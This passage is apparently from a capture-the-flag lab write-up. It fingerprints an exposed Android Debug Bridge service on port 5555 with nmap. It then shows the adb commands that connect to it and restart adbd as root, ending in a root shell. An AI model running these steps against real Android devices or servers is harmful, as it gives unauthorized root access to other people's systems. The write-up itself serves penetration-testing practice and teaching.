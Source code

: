 ```bash
PORT     STATE SERVICE  VERSION
5555/tcp open  freeciv?
| fingerprint-strings: 
|   adbConnect: 
|     CNXN
|_    device::ro.product.name=android_x86_64;ro.product.model=VMware Virtual Platform;ro.product.device=x86_64;features=cmd,stat_v2,shell_v2
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5555-TCP:V=7.92%I=7%D=6/29%Time=62BC4864%P=x86_64-pc-linux-gnu%r(ad
SF:bConnect,9E,"CNXN\x01\0\0\x01\0\x10\0\0\x86\0\0\0\x8e1\0\0\xbc\xb1\xa7\
SF:xb1device::ro\.product\.name=android_x86_64;ro\.product\.model=VMware\x
SF:20Virtual\x20Platform;ro\.product\.device=x86_64;features=cmd,stat_v2,s
SF:hell_v2");
```
So we can take a shortcut and search on google.  
In the first results we can came across [book.hacktricks.xyz for adb](https://book.hacktricks.xyz/network-services-pentesting/5555-android-debug-bridge). 
As reported in the source: Android Debug Bridge (adb) is a versatile command-line tool that lets you communicate with a device. The adb command facilitates a variety of device actions, such as installing and debugging apps, and it provides access to a Unix shell that you can use to run a variety of commands on a device.  
Now, following this documentation we can run the following commands:  
```bash
[root@kali ~ ]$ adb connect localhost      
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to localhost:5555
[root@kali ~ ]$ adb root             
adb: unable to connect for root: more than one device/emulator
[root@kali ~ ]$ adb devices                             
List of devices attached
emulator-5554   device
localhost:5555  device
[root@kali ~ ]$ adb -s emulator-5554 root                                                    
restarting adbd as root
x86_64:/ # id            
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:su:s0
x86_64:/ # 
```
And gain a shell as root
